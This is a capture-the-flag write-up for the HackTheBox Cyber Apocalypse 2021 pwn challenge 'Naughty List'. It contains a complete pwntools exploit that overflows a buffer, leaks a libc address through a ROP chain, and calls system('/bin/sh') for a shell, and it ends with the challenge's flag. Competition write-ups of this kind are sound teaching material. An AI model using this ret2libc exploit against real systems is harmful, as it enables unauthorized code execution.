 ```yaml
---
name: Naughty List (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Naughty List (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Naughty List

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3GGpyEkt8GE/0.jpg)](https://youtu.be/3GGpyEkt8GE?t=916s "HTB Cyber Apocalypse CTF 2021: Naughty List")

## Challenge Description

> The Elves have stolen Santa's 📜 and now he does not know who was good and who was bad. This form will help him recreate his list and send out gifts. Were you good enough or naughty?

## Solution

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b':', b'crypto')
    p.sendlineafter(b':', b'cat')
    p.sendlineafter(b':', b'18')
    p.sendlineafter(b':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './naughty_list'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(1000))

ret = 0x400756

# Start program
io = start()

io.sendlineafter(b':', b'crypto')
io.sendlineafter(b':', b'cat')
io.sendlineafter(b':', b'18')

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
rop.puts(elf.got.puts)
rop.get_descr()

# Send the payload
io.sendlineafter(':', flat({offset: rop.chain()}))

io.recvlines(6)  # Receive up to leaked address

# Retrieve got.puts address
got_puts = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

# Subtract puts offset to get libc base
libc.address = got_puts - libc.symbols.puts
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# Send the payload
io.sendline(flat({offset: [ret, rop.chain()]}))

# Got Shell?
io.interactive()
```

Flag: `HTB{S4nt4_g0t_ninety9_pr0bl3ms_but_chr1stm4s_4in7_0n3}`
